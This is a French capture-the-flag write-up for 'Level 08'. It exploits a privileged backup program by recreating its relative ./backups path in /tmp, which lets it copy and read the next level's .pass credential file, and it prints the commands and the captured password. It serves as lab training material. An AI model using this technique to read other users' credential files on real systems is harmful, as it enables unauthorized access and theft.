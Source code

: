 # Level 08

Le programme ouvre un fichier et en fait un backups dans le dossier `./backups`, il écrit aussi des logs dans le fichier `./backups/.log`.

Nous pouvons donc lui demander de faire un backups du fichier `/home/users/level09/.pass`.

```shell
~ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Nous avons une erreur car il n'arrive pas à ouvrir un nouveau fichier `/home/users/level08/backups//home/users/level09`

N'ayant pas les droits d'écriture dans le home de l'user level08, nous pouvons aller dans `/tmp` un dossier ou nous avons les droits d'écriture.

Pour éviter de d'avoir une erreur car le path `./backups//home/users/level09/` n'existe pas dans tmp, nous allons le créer.

Il ne nous reste plus qu'a lancer le programme avec le fichier `.pass` de level09 et de le cat dans le dossier backups.

```shell
~ cd /tmp
~ mkdir -p /backups//home/users/level09/
~ ~/level08 /home/users/level09/.pass
~ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```



